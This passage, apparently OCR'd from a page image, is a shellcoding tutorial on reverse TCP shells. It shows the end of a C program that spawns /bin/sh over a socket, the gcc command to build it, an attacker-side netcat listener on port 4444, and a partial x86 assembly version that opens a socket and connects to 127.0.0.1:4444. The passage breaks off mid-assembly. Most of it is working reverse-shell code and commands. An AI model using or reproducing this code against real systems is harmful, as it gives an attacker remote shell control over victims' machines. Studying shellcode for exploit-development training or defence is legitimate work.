 ```c
    // Execute shell
    char *const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
    
    close(sockfd);
    return 0;
}
```

**Compilation and Execution**

```bash
gcc reverse_tcp.c -o reverse_tcp
```

To set up a listener on the attacker's machine, run the following command:

```bash
nc -nlvp 4444
```

After executing the `reverse_tcp` binary on the target system, a connection is successfully established with the Netcat listener, confirming that the reverse shell is active.

### x86 Reverse TCP Shell Assembly

Now let's implement this in x86 assembly:

```s
section .text
global _start

_start:
    ; Clear registers
    xor     eax, eax
    xor     ebx, ebx
    xor     ecx, ecx
    xor     edx, edx

    ; ------------------------------------------------
    ; socket(AF_INET, SOCK_STREAM, 0)
    ; ------------------------------------------------
    push    0               ; protocol = 0
    push    1               ; SOCK_STREAM = 1
    push    2               ; AF_INET = 2
    mov     ecx, esp        ; pointer to args
    mov     bl, 1           ; SYS_SOCKET
    mov     eax, 0x66       ; sys_socketcall
    int     0x80
    mov     esi, eax        ; esi = sockfd

    ; ------------------------------------------------
    ; Build sockaddr_in for attacker (127.0.0.1:4444)
    ; ------------------------------------------------
    push    0x0100007f      ; sin_addr = 127.0.0.1 (network byte order)
    push    word 0x5c11     ; sin_port = 4444 (0x115c -> 0x5c11)
    push    word 2          ; sin_family = AF_INET
    mov     ecx, esp        ; ecx -> sockaddr_in

    ; ------------------------------------------------
    ; connect(sockfd, &addr, 16)
    ; ------------------------------------------------
    push    0x10            ; addrlen = 16
    push    ecx             ; sockaddr_in
    push    esi             ; sockfd
    mov     ecx, esp
    mov     eax, 0x66
```